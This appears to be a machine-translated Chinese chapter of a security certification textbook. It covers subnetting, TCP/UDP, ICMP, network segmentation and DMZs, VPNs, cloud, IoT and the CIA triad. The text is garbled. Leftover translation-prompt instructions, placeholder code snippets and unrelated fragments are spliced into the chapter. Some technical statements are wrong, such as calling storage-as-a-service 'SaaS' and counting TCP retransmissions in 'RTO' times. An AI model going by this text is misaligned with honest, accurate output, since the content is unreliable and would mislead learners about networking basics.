可以看到，标有 1 的位属于网络段，且 1 从左侧开始，没有间隙。因此，子网掩码只能取以下数值：0、128、192、224、240、248、252、254、255。这是因为每个位代表 2 的幂次，从最左侧的最高位开始累加。例如，二进制 10000000 等于十进制 128；11000000 等于 192。每设置一个位为 1，就相当于加上下一个较低的 2 的幂次。对上面的子网掩码进行二进制转十进制后，可知其为 255.255.255.128。这意味着最后一个字节只有最后 7 位用于主机值。该字节的二进制表示为 10000000。

在子网掩码 255.255.255.128 的情况下，无论 IP 地址是什么，我只能变动最后一个字节，且不能改变最高位的值，这导致可分为两个地址块：0–127 和 128–255。一旦知道 IP 地址，就能确定所在的块。例如，若 IP 地址为 172.20.30.42，掩码为 255.255.255.128，则该地址属于 172.20.30.0–127 的范围。

另一种表示网络块的方法是 CIDR 记法（Classless Inter‑Domain Routing），即只给出前缀长度（即有多少位用于网络）。前缀指示哪些位用于网络。上面的子网掩码对应 /25 前缀，因而可以用 172.20.30.42/25 表示该子网。使用这种记法在思考 2 的幂次时会更方便。

# TCP 与 UDP

## TCP 的可靠传输机制

TCP 是面向连接的传输层协议，其可靠性主要体现在三次握手、序列号与确认号、以及重传机制等方面。

### 三次握手过程

TCP 使用 **三次握手**（three‑way handshake）来建立连接。握手过程如下：

1. **SYN**：客户端发送 SYN 报文，`seq = x`，标记 SYN 位并设置初始序列号 `x`（随机值）。

2. **SYN‑ACK**：服务器收到 SYN 后返回 SYN‑ACK 报文，`ack = x + 1`，`seq = y`，同时将 ACK 位置 1，表示已收到客户端的同步请求。

3. **ACK**：客户端返回 ACK 报文，`ack = y + 1`，`seq = x + 1`，完成连接建立。



**图 2.11 三次握手**

握手确保双方都处于活动状态，并且双方能够互相确认对方的存在。

### 确认号与序列号的作用

- **序列号（sequence number）**：表示已发送的字节数，用于标识发送的数据段。

- **确认号（acknowledgment number）**：告知对方已成功收到的字节数，若确认号不前进，则表明数据段丢失，需要重传。

TCP 通过重传机制保证可靠交付，最多可重传 `RTO`（重传超时）次数，超过后仍未收到确认则视为丢包。

### 代码示例

```
if (condVar > someVal) {console.log("xxx")}
```

## UDP 的轻量特性

UDP 是无连接的传输层协议，几乎没有可靠性保证，开销极小。

### UDP 报文结构

UDP 头部包含四个 16 位字段：

- **源端口（source port）**

- **目的端口（destination port）**

- **长度（length）**

- **检验和（checksum）**


其中，**源端口** 是可选的，因为 UDP 不需要建立连接，服务器可能不会返回响应。



**FIGURE 2.12** UDP headers

### 简单的 UDP 使用示例

```cmd arg0 arg1 arg2
```

UDP 适用于对延迟敏感、对顺序性要求不高的应用，例如 **流媒体**（video/audio streaming）和 **实时语音通话**。

### 为什么 UDP 可能会导致报文乱序

在网络路径变化时，报文可能通过不同的路径到达接收端，导致**乱序**或**丢失**。例如：

- 原路径：`A → B → C → D`

- C 失效后，路径改为 `A → E → F → D`，在传输过程中已在飞行的报文可能被延迟或重新排序。

应用层需要自行处理乱序和丢包，这也是为什么实时应用倾向于使用 UDP。

## Internet Control Message Protocol (ICMP)

ICMP 用于网络层的误差报告和控制消息，其中 **“目的地不可达”**（port unreachable）代码用于指示 UDP 端口不可达的情况，但不指定具体的传输层协议。

-   ICMP 是一种特殊的协议，在协议方面它不携带用户数据。相反，它与其他协议协同工作，提供错误和控制消息。当网络出现意外情况时，设备会生成 ICMP 消息并返回给发起设备，以告知存在问题。它位于 IP 之上，因为它需要 IP 的寻址功能，但它被视为 Internet 层的一部分，与 IP 本身同属。这也使它成为一种相当不寻常的协议，因为它位于网络层之上，但并不是传输层协议。

ICMP 定义于 RFC 792，其中包含 8 字节的报头。报头包括类型和代码字段，用于传达 ICMP 的基本信息，一个校验和字段，以及标记为“其余报头”的 4 字节。类型和代码各占 1 字节，校验和占 2 字节。其余报头字段包含与类型和代码相关的数据。类型和代码决定了这 4 字节中包含的内容。

类型字段指示所发送的消息类型，可能取值为回显回复、回显请求、目的不可达、源端阻塞或时间戳消息。每种类型都可能有多个子类型。不同的子类型由代码字段指定。例如，目的不可达类型的代码可以指示目的具体是什么——网络、主机或端口。它可能表明它们不可达，也可能表明触发 ICMP 消息的报文被管理员禁止。

进行安全测试或渗透测试的经常会通过 ICMP 回显请求和回显回复消息来遇到 ICMP 消息。这些消息是 `ping` 程序使用的。你也可以使用 `traceroute` 程序获取到目标的网络路径。`traceroute` 依赖于两种 ICMP 消息。第一种是 ICMP 类型 11，即“在传输过程中超时”。这意味着消息的 TTL 字段被递减至零。当 `traceroute` 完成后，程序预期收到 ICMP 类型 3、目的不可达消息，通常代码为 3，表示目的端口不可达。这部分取决于 `traceroute` 的实现，并假设使用了目标端口的 TCP 消息。

## 网络架构

我们已经讨论了拓扑结构，它们有助于提供网络的概念性、逻辑性表示。然而，网络本身还有更大的背景。将拓扑结构与数据流以及其他网络元素结合起来，就会得到网络架构。它描述了使用的协议以及它们的使用位置，同时可能包含网络安全域作为网络架构的一部分。你还需要考虑多位置的情况。

从安全角度来看，还需要考虑的其他元素包括隔离。这可能意味着根据使用情况和风险对系统进行分类。那些需要直接面向 Internet 的系统 — — 也就是说，外部用户会作为正常操作来建立网络连接的系统 — — 可能会被单独保存并受到保护，以免与用户使用或存储敏感数据的系统发生混淆。

### 网络类型

在此我们将网络类型按地理范围进行分类。逻辑图虽然美观，但无法让你直观感受到各元素的实际位置。使用逻辑图可能会让人误以为系统在物理上很近，实际上它们可能相距数英里。由于现代网络技术的强大，现代网络技术可以覆盖各种情况，使得数百英里开外的系统看起来像是在同一物理网络段内。

因此，我们可以根据地理范围来划分不同类型的网络。

*   **局域网 (LAN)**   LAN 即其名称所暗示的含义。所有系统都在本地，通常位于同一房间、同一栋楼或同一楼层。这些系统属于同一广播域或冲突域，意味着它们可以在第 2 层直接通信，无需路由到其他网络。但它们不一定一定通过第 2 层通信，也可能是本地但位于不同的网络段，此时不同段之间的流量需要进行路由。

*   **虚拟局域网 (VLAN)**   VLAN 是一种通过软件/固件在第 2 层实现隔离的 LAN。这意味着某些交换机可以被划分为独立的网络，部分系统位于一个 VLAN，部分系统位于另一个 VLAN。要在两个 VLAN 之间传输流量，必须跨越第 3 层边界（路由器）。这种隔离有助于维持网络性能，也便于对整个 VLAN 应用相同的流量策略，实现逻辑上的组织化。此外，VLAN 还有安全考量。可以在 VLAN 之间放置防火墙，虽然可以在主机层面部署防火墙，但使用单一网络防火墙并根据每个网络的需求控制跨第 3 层边界的流量更为简便。

*   **广域网 (WAN)**   WAN 是节点距离超过约 10 英里的网络。任何 Internet 服务提供商都拥有 WAN。企业也可能拥有 WAN，用于连接其不同办公地点。实现地理分散连接的方式包括虚拟专用网络（VPN）、专用网络线路，或直接隧道流量而不加密（VPN 通常会加密）。

*   **城域网 (MAN)**   MAN 介于 LAN 与 WAN 之间。例如，公司校园内有多个建筑，每个建筑拥有 LAN（或多个 LAN），这些 LAN 之间的连接构成了 MAN。同样，如果一个城市的各办公楼之间有连接，形成的也可以是 MAN。简而言之，任何比 LAN 规模大、但比 WAN 规模小的、跨越较大地理区域的网络都可以称为 MAN。

### 隔离

网络隔离是一个重要概念，也是广为认可的保护敏感数据的方法。它还用于将对外可访问的系统与严格内部系统区分开来。实现隔离的方式有多种。

常见做法是使用非军事区（DMZ）。DMZ 是一个网络段，用于放置不受信任的系统。访问该段可以通过防火墙或访问控制列表（ACL）进行严格控制。如 [Figure 2.13 所示，一个简单的示意图展示了这种布局。DMZ 可能包含 Web 服务器等系统，也可能包含邮件网关，用于在将消息转发至内部邮件服务器之前对其进行过滤。DMZ 有很多用途，用于将不受信任的系统与企业其余网络隔离。不受信任系统是指任何人都可以从 Internet 访问的系统，这意味着它可能会通过暴露的服务被入侵。防火墙和/或 ACL 防止外部人员访问内部系统，同时也阻止 DMZ 内的系统与企业内部系统通信。



**FIGURE 2.13** DMZ network

如果您使用的是 DMZ，这意味着网络隔离，并且对访问网络的控制更加严格，规则更加限制性。网络分段也可以隔离其他系统，而不一定需要引入防火墙规则或访问控制列表。您可以看到还有用于内部服务器以及桌面网络的网络段。此外，可能还有许多其他网络段。每个网络段都有不同的信任级别。例如，可能还有一个供访客（guest）网络，允许供应商和其他访客访问网络，但他们无法访问任何内部系统。

DMZ 并不是唯一的网络隔离方式。保护网络免受面向 Internet 的服务侵害也是进行网络隔离的原因之一。一种常见的保护高度敏感信息的做法是使用隔离区（enclaves）。隔离区是一个网络段，其中可以放置严格的控制措施。如果您处理任何支付卡数据（例如信用卡信息），系统可能需要不仅进行额外的保护，还需要进行额外的监控。这可能包括在网络层和主机层使用防火墙和入侵检测系统。

组织可能会为特定类型的数据创建多个隔离区。信用卡数据（通常称为 PCI，即 Payment Card Industry，负责管理数据安全标准）是常见的一种，但您也可能看到为个人健康信息（PHI）创建的隔离区。如果组织持有任何 PHI，则根据《健康保险可携带性和责任法案》（HIPAA）对数据处理的要求可以更容易在隔离区中实现。

分段化正变得越来越常见，尤其是随着数据使用受到更严格的监管。您可能会看到微分段化（microsegmentation），其中段是基于工作负载定义的，工作负载是应用程序所需的系统和服务集合。这可以在虚拟环境中轻松实现，您可以在虚拟机管理程序或其他管理虚拟基础设施的控制平台中将系统封闭。此外，软件也被用来提供这种层次的分段。微分段化允许在与应用程序或服务相关的特定系统集合上应用安全控制。

### 远程访问

让我们暂时跳入 `TARDIS`，向远古时代迈进。远程访问过去是通过调制解调器和拨号实现的。那些日子已经过去，但远程工作者获取内部资源的需求或许比以往任何时候都更迫切。这些天，远程访问通常通过 Internet 处理。这通常不会直接通过公开的 Internet 处理，而是通过加密实现。虚拟专用网络（VPN）是一种从远程位置访问内部网络的方式。VPN 并非全部相同。实现远程访问的方式有多种。

在某些情况下，远程访问是分支机构（satellite office）。在这种情况下，可能没有意义建立直接的、私有的点对点线路。取而代之的是，网络提供商可能在其网络内提供一种方式，将两个位置连接起来。例如，可以使用多协议标签交换（MPLS），它本质上提供了一个通过标签封装的流量隧道，从一个地点传输到另一个地点。

更常见的是，至少在流量方面，需要用户到网络的连接。即使在这里，也有多种实现方式。一种方式是几十年历史的，它最初是 IPv6 工作的一部分。IP 安全（IPSec）是一组扩展，部分提供了从一个地点到另一个地点的加密。IPSec 包含多种协议，不仅提供加密，还提供消息完整性、用户认证和密钥交换。由于 IPSec 不是 IPv4 本身的一部分，它需要某种机制在 IPv4 网络上实现，通常需要在网络栈中插入某种组件来拦截发送的流量并应用相应的 IPSec 政策。

另一种 VPN 连接使用的是大多数人熟悉的技术。Web 连接通常使用传输层安全（TLS），这是当前用于加密 Web 流量的实现，已取代安全套接层（SSL）。由于这是一种众所周知且广泛使用的加密方法，公司通常已经拥有所需的基础设施，如证书颁发机构（CA），以实现这种类型的 VPN。此外，这种 VPN 通常通过 Web 浏览器部署，而不是安装较重的应用程序。

### 云计算

计算世界的性质长期以来像摆锤一样摆动，尤其是计算能力所在的位置。数十年前，在 1960 年代和 '70 年代，公司会去服务提供商那里获取计算需求，因为主机非常昂贵，超出了大多数公司的预算。企业必须将信息托付给这些服务提供商，让它们执行作业，无论是工资单还是用于邮件列表的数据合并等。

当个人电脑（PCs）出现后，公司可以购买一台电脑并自行拥有计算系统，从而将所有数据处理（当时所知的）拉回内部。于是，摆锤从外包摆向内包摆。随后，PC 的成本下降，企业可以负担多台系统，数据存储在各自的系统上，或至少存储在用户桌面的软盘上。

后来，又出现了将更多终端从主帐篷（mainframe）搬到用户桌面的趋势，重新集中数据存储。随着万维网（World Wide Web）的创建， businesses 开始认识到拥有全时 Internet 连接的价值，并使用托管提供商外包诸如网站等功能，可能仅包含营销材料，也可能包含其他业务数据。当 Internet 接入变得非常便宜且普及时，企业将托管重新搬回内部。

总之，我们现在正处于一个许多企业选择外包的阶段。毕竟，随着大量用户在线，企业可以看到系统的大量流量。此外，外包能够将对外可达的系统隔离于企业内部网络之外，这使得攻击者无法通过 breaching 外部系统来进一步渗透内部网络，包括存储个人信息的工作站或敏感业务数据。

当前的外包形式是云计算。它经历了演变。最初，托管提供商会承担硬件及全部基础设施的成本，向不想自行托管的公司提供这些硬件和基础设施。有时该硬件是专用于租用的业务，这使得回收硬件成本并保持具有竞争力的定价变得困难。

随后，像 Amazon 和 Google 这样的公司拥有大量系统，有时这些系统闲置。这些公司开发了服务，让企业可以使用这些闲置系统。由于这些服务通过 Internet 提供，而非本地提供，它们被描述为“在云端”。云计算服务有多种形态。第一种，也是今天使用最广泛的，是存储即服务（SaaS）。

进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

Figure 2.16 显示了亚马逊云科技（Amazon Web Services）市场中可用的一些应用程序的小集合。选择其中一个应用后，根据需求，会启动带有所需操作系统的虚拟机，并且该应用已预先安装。除了市场中提供的应用外，您还可以创建自己的镜像，这些镜像以 Amazon Machine Images（AMI）的形式存储。这可能是必要的，如果公司拥有自行开发、在内部使用的应用程序，需要在虚拟机上运行。一旦有了 AMI，就可以按需启动多个该镜像的实例。

微软也提供 Azure 服务的市场。Figure 2.17 显示了可用镜像的类别列表，以及可供选择的数据库服务器列表，以便从中创建实例。除了微软提供的所有解决方案外，还有大量第三方供应商提供其自身的解决方案。在类别列表中，您可以看到 Security 等类别。一些可能的选项是虚拟化的硬件设备解决方案，例如防火墙、负载均衡器、拒绝服务保护以及其他安全功能，均可供选择。



**FIGURE 2.16** AWS marketplace images

使用 PaaS，您可以快速创建完整的虚拟网络，包含支持服务或应用所需的所有虚拟设备。如果需要，企业内部的系统可以与云提供商的系统集成。

常见的访问协议用于访问虚拟设备，如 SSH 和 Remote Desktop Protocol（RDP）。这意味着这些服务会暴露在外部网络中，尽管可以通过访问规则将其限制为特定的源地址。默认情况下，这些服务可能对外部世界开放，即容易受到攻击。环境内的地址可能不是静态的，这意味着每次系统上线时，可能会获得不同的外部地址。可能存在网络地址转换（NAT），它会将发送到外部 IP 地址的消息转发到解决方案内部的私有地址。

### 软件即服务

不再必须依赖在桌面上运行的原生应用程序。您也不一定被特定系统的软件许可证所束缚。相反，许多公司将其应用程序提供为云服务，这意味着这些应用已设计为在 Web 浏览器中运行。如果您使用过 Google Docs 或 Office Online，就会了解这类服务的示例。通过 Web 界面提供的软件数量庞大。在某些情况下，如 Google 和 Microsoft，已提供存储即服务，因此创建的文档会自动保存在那里。第三方软件也可以与这些存储解决方案进行集成。



**FIGURE 2.17** Azure Marketplace images

例如，本章中的一些网络图是使用 draw.io（一个在线绘图应用）绘制的，其他图则使用 Visio Online 绘制。还有 Smartsheet 等解决方案，它提供在线电子表格和项目规划功能。客户关系管理（CRM）也可以完全通过 Web 界面访问。这使得软件公司交付解决方案更快更简便，对消费者而言也更快更易。在很多情况下，您可以在没有任何前期费用的情况下开始使用，具体取决于您的需求和使用频率。

从安全角度来看，这种解决方案和交付方式有潜力大幅提升漏洞修复的效率。当发现 Web 应用中的漏洞时，可以在不需要终端用户操作的情况下进行修复、测试并部署。这消除了对原生应用的自动更新需求。由于应用并不总是在用户系统上运行时更新，用户可能会运行带有漏洞的过时软件。

不过，这也意味着可能敏感的数据存储在第三方服务中，并且数据是通过浏览器从客户端传输到服务提供商的服务器的。大多数站点支持 SSL/TLS，通信会被加密，但 SSL 存在漏洞，可能导致信息泄露。这并不意味着对 SSL/TLS 本身存有疑虑，只是提醒您，数据在网络传输时有可能被捕获和分析。

### 物联网

如果您没有在本地拥有大量此类设备，您可能已经见过它们。极端的例子包括冰箱、烤面包机和咖啡机。除此之外，还有家庭自动化设备、数字视频录像机以及有线/卫星机顶盒。任何具有嵌入式软件且具备网络访问能力的设备都属于物联网（IoT）。本质上，通用计算设备（如电脑或智能手机）不属于 IoT，因为它们拥有传统的输入/输出设备（如屏幕和键盘），即使键盘是虚拟的。许多此类设备运行小型嵌入式 Linux 实现，其他设备则使用其他嵌入式操作系统。

在此提及云解决方案的原因是，云服务提供商通过提供通信网关来支持这些设备。Microsoft Azure 提供 IoT Hub 来连接这些设备。原因有几个。其一是获取并存储设备产生的数据；随后可以使用数据库和机器学习系统对这些数据进行处理和分析。Amazon 也提供类似的服务。

除了获取这些简单设备的数据外，网关还可用于设备管理。可以通过这些中心化网关向设备发送命令。常见的通信协议如 HTTP 可用于与设备通信，也可能使用 Message Queuing Telemetry Transport（MQTT）等其他协议。MQTT 可用于设备间的消息传递，采用发布/订阅模型，使多个设备能够访问消息总线。

云服务提供商的这些服务为每个企业，包括初创公司，提供了在前期投入不大的情况下创建和部署支持其想要制造设备的基础设施和应用的能力。所有基础设施均已采用非常健壮的实现方式进行管理。

这是一个日益重要的概念，因此在第 15 章 中会有更大的章节专门介绍不同类型的 IoT 服务以及针对这些设备的攻击方式。

## 摘要


网络化计算系统根本改变了我们的商业、工作和生活方式，且在很短的时间内完成。计算机网络还提供了远程攻击个人和企业的便利手段，改变了某些犯罪组织的运作方式，并提供了轻松实施欺诈和盗窃的途径。正因如此，以及后续章节大量内容依赖于网络，理解计算机网络的基础变得非常有价值。

粗体（**bold**）和斜体（*itatic*）需要翻译翻译内容并保留符号。

内联代码（`code`）和代码块不需要翻译。

链接（[link](https://example.org)）需要翻译其内容，但保留网址。

列表，表格，引用块保留格式，翻译内容

原文可能有多行，不要漏掉任何一行，并且注意一定不要重复输出原文！！！

输出应包含在“[content]...[/content]”中

4. `Addressing` systems on the local `network`

# 第 3 章

## 安全基础

组织通常在防御和减缓攻击方面投入大量时间和金钱。这些防御的规划与实施涉及一些基础概念。本章我们将介绍一些帮助安全专业人员决定如何最好保护企业的主题。其中一些是基础性的，也就是说它们在 CEH 考试中可能不会专门出现，但为了在此基础上构建更高级的防护措施，必须覆盖这些内容。本章结束时，你将掌握基础知识，并开始讨论困难的防御机制。如果你是伦理黑客，你会在工作中频繁遇到这些内容。

首先，你需要理解信息安全的含义——哪些事件属于安全范畴。这些概念通常被称为三元论或 CIA 三元论。它是信息安全专业人员（CISSP）认证的核心概念，该认证涵盖信息安全的全部领域。CIA 三元论是理解信息安全其他方面的良好基础。

除了知道你要防范什么，你还需要知道`你`在保护什么。进行风险评估可以帮助你实现这一点。识别潜在风险及其可能的损失，有助于在有限资源（预算、人力、资本支出等）分配方面做出决策。它还能帮助安全专业人员确定需要建立的政策，以指导员工及信息技术人员的整体和具体行动。从政策衍生出标准和程序，它们都是确定公司如何保护信息资产的必要组成部分。

在政策就位后，可以决定如何最好保护信息资源。除了人力资源，还可以利用技术手段。网络中可以部署多种设备来协助信息保护。这些设备既能阻止攻击者，也能提供识别入侵的信息，包括攻击者用来获取网络和系统访问的路径。此外，网络中还可能部署能够自动检测并阻止入侵尝试的元素。

单靠技术本身无法提供保护。这些元素和设备的部署位置至关重要，相关决策基于诸如`defense in depth`（纵深防御）和`defense in breadth`（横向防御）等理念。这些理念有助于定义完整的安全架构。除了安全设备，系统层面的机制也能为防火墙和入侵检测系统提供更有价值的上下文。所有这些元素和决策结合在一起，才能构建企业的完整防御体系。

## 三元论

三元论是由三个属性或特性定义的，它们共同决定了安全的含义。这三个元素分别是`保密性`、`完整性`和`可用性`。在制定安全计划时，必须同时考虑这三个属性。它们的重要性各不相同，但在规划防御措施时，每一个都至关重要。并不是所有的防御措施都会同等程度地涉及这三个属性，例如某些防御只影响单一属性。从攻击者的视角来看，他们会试图`compromising`（妥协）其中的一个元素。你常常会看到这三个元素统称为 CIA 三元论，这与中央情报局（CIA）无关。

Figure 3.1 以三角形形式展示了三元论的三个元素，因为三角形通常用来象征三者平等。在等边三角形中，三条边长度相同，这象征三个属性的权重相等，表明没有任何一个属性比其他属性更重要。整体组织的安全状态需要三者均衡，虽然不同情境下可能突出不同的元素，但在整体安全考量中，三者应同等重要，以保持安全姿态的平衡。



**FIGURE 3.1** CIA 三元论

当你观察图像时，可能会发现如果任一边被移除或受损，三角形不再完整。信息安全亦是如此：如果这三个属性中的任何一个被移除或受损，组织的安全也将受到影响。只有同时保持这三个属性的完整，才能确保你及你的信息得到充分保护。

### 保密性

或许我们应该回到幼儿园的认知，尽管你可能有更近期的记忆或经验可以对应。儿童总是有秘密，而且往往以低声耳语、在操场边缘秘密分享。你期望把秘密告诉朋友后，秘密只在你和朋友之间保密。想象一下，如果你告诉朋友你非常非常非常喜欢坐在你后面的同学，而朋友把这件事告诉了那个同学，那将会非常尴尬，尴尬程度可能与你年龄成反比。

当朋友泄露你的秘密时（假设他们确实如此），他们就违背了你的信任。你的秘密不再保密，你也就无法确定是否还能信任这位朋友。一个挑战是你可能把秘密告诉了两位朋友，随后从其他人那里听到这个秘密。你不知道是哪位朋友泄露的，只知道保密性已经被侵犯。

在数字世界，保密性仍然意味着保护秘密，核心概念未变。这涵盖了众多方面：确保没有人未经授权访问信息，例如使用强密码防止攻击者登录。也可以将某些信息离线存储，防止远程访问。常见的做法是通过`加密`来实现保密性。

在讨论保密性时，我们需要从`静态`和`动态`两个维度来看待：静态是指保护“静止”的数据，即“at rest”状态，通常存储在磁盘上且未被使用或操作；动态是指数据在传输时的状态，即“in motion”，例如浏览器向服务器请求并获取信息的过程。传输过程使数据成为动态的，而不一定意味着数据在传输过程中被篡改，但数据在不同系统之间移动时确实可能遭遇篡改。

-   [费曼学习法](https://wiki.example.org/feynmans_learning_methods)

-   **真实性**   有时被称为不可否认性。真实性的概念是数据或文档的来源就是它所声称的那样。例如，当你数字签署一封电子邮件时，收件人可以确定该消息来源于你，因为消息中包含了你的数字签名，而没有其他人应该拥有。当然，实际上我们只知道消息是用你的密钥签署的。如果你的密钥被窃取或分发，它仍然可以被用于你。真实性是确保当你收到一段数据，无论是什么，它确实来自它声称的来源。

-   **实用性**   假设你拥有我们之前讨论的那块外部硬盘。多年以后，它一直放在抽屉里。它只是硬盘本身，没有线缆，因为两者分离了。你已经没有线缆了，而且自上次使用它以来，你的电脑接口已经全部改变。现在你有数据，但它无法使用，没有实用性。个人而言，我有一块老式的九轨磁带，放在地下室的盒子里已经多年了。它对我完全无用，因为我没有磁带驱动器或主帧来读取它。此外，它很可能以 EBCDIC 格式存储，而不是 ASCII。所有这些都使得这块磁带上的数据在我的所有权下且技术上可用的情况下仍然无用。

虽然这些属性会引发一些重要的思考，但你也可以把这些情景归入三个属性 —  — 即 CIA 三元组中的可用性、完整性和真实性。占有和实用性情景可以归类为可用性，真实性则归类为完整性。毕竟，如果数据的来源被声称是某物，但实际上不是，那么数据的完整性就被破坏了。帕克六元组提供了一些具体案例，而不是 CIA 三元组的更广泛概念。如果你在思考安全的含义以及哪些事件属于安全事件时，将其拆分为独立于其他因素可能更有用，六元组可能比三元组更有帮助。

## 信息保障和风险

